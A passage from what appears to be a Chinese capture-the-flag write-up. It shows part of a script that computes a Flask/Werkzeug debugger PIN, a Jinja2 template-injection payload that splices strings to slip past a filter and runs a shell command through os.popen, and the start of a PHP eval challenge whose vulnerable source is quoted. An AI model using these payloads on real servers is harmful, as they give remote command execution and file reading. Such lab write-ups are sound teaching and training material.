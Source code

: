 ```python
num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

```
273-975-565
```

输入后得到交互式终端

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209131622346.png)

非预期解的方式是直接字符串拼接绕过过滤, 然后导入 os 执行命令

```python
{% for x in ().__class__.__base__.__subclasses__() %}
{% if "warning" in x.__name__ %}
{{x.__init__.__globals__['__builtins__']['__imp' + 'ort__']('o'+'s').__dict__['po' + 'pen']('cat /this_is_the_f'+'lag.txt').read() }}
{%endif%}
{%endfor%}
```

## [极客大挑战 2019]RCE ME

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
  $code=$_GET['code'];
  if(strlen($code)>40){
      die("This is too Long.");
   }
  if(preg_match("/[A-Za-z0-9]+/",$code)){
      die("NO.");
    }
  @eval($code);
}
else{
  highlight_file(__FILE__);
}
?>
```
